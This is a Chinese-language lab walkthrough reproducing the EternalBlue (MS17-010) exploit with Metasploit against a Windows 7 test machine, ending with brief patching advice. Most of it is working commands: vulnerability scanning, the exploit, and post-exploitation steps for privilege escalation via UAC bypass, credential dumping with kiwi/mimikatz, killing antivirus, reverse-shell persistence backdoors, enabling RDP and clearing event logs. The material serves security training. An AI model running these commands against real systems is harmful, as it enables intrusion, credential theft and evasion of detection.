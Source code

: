 # 0x01 永恒之蓝Eternal blue（MS17-010）

2017年NSA（美国国家安全局）泄露的永恒之蓝漏洞，利用SMB协议造车缓冲区溢出，对目标进行远程控制。

相关的CVE：CVE-2017-0145、CVE-2017-0146、CVE-2017-0147、CVE-2017-0148

影响范围：

```
Windows 2016 x64
Windows 10 Pro Vuild 10240 x64
Windows 2012 R2 x64
Windows 8.1 x64
Windows 2008 R2 SP1 x64
Windows 7 SP1 x64
Windows 2008 SP1 x64
Windows 2003 R2 SP2 x64
Windows XP SP2 x64
Windows 8.1 x86
Windows 7 SP1 x86
Windows 2008 SP1 x86
Windows 2003 SP2 x86
Windows XP SP3 x86
Windows 2000 SP4 x86
```

# 0x02 漏洞复现

## 2.1 环境准备

* 靶机：Windows 7 SP1（IP：192.168.41.134）
* 攻击机：Kali Linux （IP：192.168.41.147）

## 2.2 漏洞检测

nmap 扫描

`nmap --script=vuln 192.168.41.134`

![image-20240407151436202](images/image-20240407151436202.png)

fscan扫描 

`fscan.exe -h 192.168.41.134`

![image-20240407150631557](images/image-20240407150631557.png)

msf扫描

`use auxiliary/scanner/smb/smb_ms17_010`

![](images/image-20240407150422449.png)

## 2.3 漏洞利用

```
# 打开msf控制台
msfconsole
# 搜索ms17-010模块
search  ms17-010
# 加载利用模块
use exploit/windows/smb/ms17_010_eternalblue
# 设置参数
set payload 
set rhosts 192.168.41.134
exploit
```

![image-20240407151529938](images/image-20240407151529938.png)

漏洞利用成功后出现`meterpreter`可以进行后渗透测试阶段

* 截屏 ` screenshot`

![image-20240407152436315](images/image-20240407152436315.png)

* 上传文件到靶机`upload <本地文件> <靶机目录>`

![image-20240407152608941](images/image-20240407152608941.png)

* 从靶机下载文件`download <目标文件或文件夹>`

![image-20240407152807645](images/image-20240407152807645.png)

* 打开远程桌面`run vnc`，只能远程查看，不能操作
* 获取shell `shell`进入靶机命令执行

![image-20240407153431362](images/image-20240407153431362.png)

* 提权`getsystem`，Windows账号权限从低到高是user-admin-systen

![image-20240407153509794](images/image-20240407153509794.png)

或者`use exploit/windows/local/bypassuac`之后再执行`getsystem`提权

![image-20240407174258166](images/image-20240407174258166.png)

直接getsystem提权失败，转用bypassuac尝试

```
bg # 返回上一层
use exploit/windows/local/bypassuac # 使用模块
set session 1 # 设置session ID
run 
getsystem # 再次提权
```



![image-20240407174435896](images/image-20240407174435896.png)

* 获取用户密码，kiwi（原mimkatz）在32位系统中可用，64位系统需进行进程迁移

  ```
  load kiwi # 比mimikatz更强大
  creds_all # 获取所有凭据
  kiwi_cmd sekurlsa::logonpasswords # 获取登录密码
  ```

![image-20240407153624305](images/image-20240407153624305.png)

* 进程迁移隐藏

```
ps # 查看所有进程
getpid # 查看当前进程ID
migrate <PID> # 手动迁移进程
run post/windows/manage/migrate # 自动迁移
```

![image-20240407160443665](images/image-20240407160443665.png)

* 权限维持

```
# Persistence模块（创建注册表启动）
run post/windows/manage/killav # 先关闭杀软
run exploit/windows/local/persistence lhost=192.168.41.147 lport=6666 payloads=windows/meterpreter/reverse_tcp delay=10 startup=SYSTEM
 # 创建一个持久性后门,落地文件容易被查杀
use exploit/multi/handler # 开启监听连接
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.41.147
set lport 6666
run
```

![image-20240407182537416](images/image-20240407182537416.png)

```
metsvc模块（创建服务），容易被查杀，且需要管理员权限
```

![image-20240407190014889](images/image-20240407190014889.png)

![image-20240407190028075](images/image-20240407190028075.png)

执行成功后重启靶机，Kali同步开启监听

```
use exploit/multi/handler
set payload windows/metsvc_bind_tcp  #  指定的木马模块
set RHOST 192.168.41.134   # 靶机IP
set LPORT 31337    # 靶机上监听的端口值31337
run
```

msfvenom生成后门文件上传到靶机执行，然后提权，进程迁移隐藏（进阶：MSF、CS免杀木马制作）

![image-20240407173423973](images/image-20240407173423973.png)

![image-20240407173456794](images/image-20240407173456794.png)

* 登录远程桌面

```
run post/windows/manage/enable_rdp
idletime # 查看远程用户空闲时间
rdesktop -u <用户名> -p <密码> 192.168.41.134 # 另打开一个命令行执行，不在MSF里，输入获取到的账号密码 
```

![image-20240407155633448](images/image-20240407155633448.png)

![image-20240407155558970](images/image-20240407155558970.png)

* 清楚日志`clearev`

清除前

![image-20240407161014310](images/image-20240407161014310.png)

清除后

![image-20240407161049342](images/image-20240407161049342.png)

# 0x03 修复方案

* 关闭445端口
* 打开防火墙，安装杀毒软件
* 安装修复补丁https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2017/ms17-010